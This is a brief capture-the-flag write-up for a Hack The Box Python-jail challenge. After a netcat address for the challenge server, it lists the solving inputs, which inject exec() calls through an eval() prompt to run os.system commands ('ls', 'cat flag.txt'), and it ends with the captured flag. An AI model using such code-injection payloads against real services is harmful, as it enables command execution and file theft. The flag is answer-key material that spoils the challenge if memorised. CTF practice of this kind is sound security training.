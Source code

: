 # nehebkaus-trap

**SOLVED**

> In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. 
> A giant granite block falls and blocks your exit, and the walls start closing in! 
> You are trapped. 
> Can you make it out alive and continue your quest?

`nc 142.93.38.14 32019`

```py
eval() # nice we have commands

print(str(eval(input())))
"exec('import os; print(os.getcwd())')"

exec(input())
# import os; print(os.getcwd())

exec(input())
# import os; print(os.system('ls'))

exec(input())
# import os; print(os.system('cat flag.txt'))
```

`HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}`
